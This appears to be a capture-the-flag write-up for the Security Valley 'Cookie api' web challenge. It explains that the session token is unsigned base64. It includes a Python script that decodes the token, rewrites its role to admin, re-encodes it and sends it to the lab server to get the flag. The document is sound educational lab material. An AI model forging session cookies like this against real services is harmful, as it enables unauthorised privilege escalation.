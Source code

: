 ```yaml
---
date: 2023-07-31 07:46:58 +02:00
categories: [SecurityValley, Web]
tags: [Web, CTF, SecurityValley]
---
```

This is a writeup of the web challenge Cookie api from the [Security Valley](https://ctf.securityvalley.org) CTF
#### Level: 1, Score: 15
# Premise
This API here has a strange behavior. The endpoint /api/v1/init produces cookies. Ok! The /api/v1/store endpoint likes to eat cookies. LOL. Can you make it like your cookie too?

**Link:** [http://pwnme.org:8888](http://pwnme.org:8888/)
## Challenge links:
[https://pwnme.org/](https://pwnme.org/)
# Observations
If we make a api call to the `init`endpoint, we cant see anything in the response body.
If we instead look at the headers, we can see a session token, which looks like it's encoded in base64 and a very short expiry date (1 second).
![Initialized cookie](/assets/images/cookie_api_req.png)
If we decode the base64 string, we find the following contents:
![Decoded session_token](/assets/images/cookie_api_session_decoded.png)

Passing this token to the `store` endpoint gives us no response.
# Solution
As we saw earlier, our `session_token` has the `user` role. 

If we attempt to elevate our privileges by changing this role to something like `admin` for instance, we can see if it makes a difference.

We need to automate this however, since as we saw earlier, all this needs to be done in a second.

To do this, we can write a simple python script containing the following:

```python
import requests
import base64

make_cookie = requests.get("http://pwnme.org:8888/api/v1/init")
cookie_response = make_cookie.headers

session_token_contents = make_cookie.headers["Set-Cookie"].split(';')

session_token_only = session_token_contents[0].split('=')

base64_decoded_string = base64.b64decode(session_token_only[1]).decode("utf-8")

decoded_split_cookies = base64_decoded_string.split('&')

id_cookie = decoded_split_cookies[1].split('=')

to_encode = "role=admin&id="+id_cookie[1]

dastringie = to_encode.encode('ascii')

cookie_to_send = base64.b64encode(dastringie).decode("utf-8")

cookie_dict = {"session_token": cookie_to_send}

send_cookie = requests.get(url="http://pwnme.org:8888/api/v1/store", cookies=cookie_dict)
print(send_cookie.text)
```
Running this script gives us the following output:

![Script Result](/assets/images/cookie_api_flag.png)

Giving us our flag.

# Tools used:
 - python3
 - CyberChef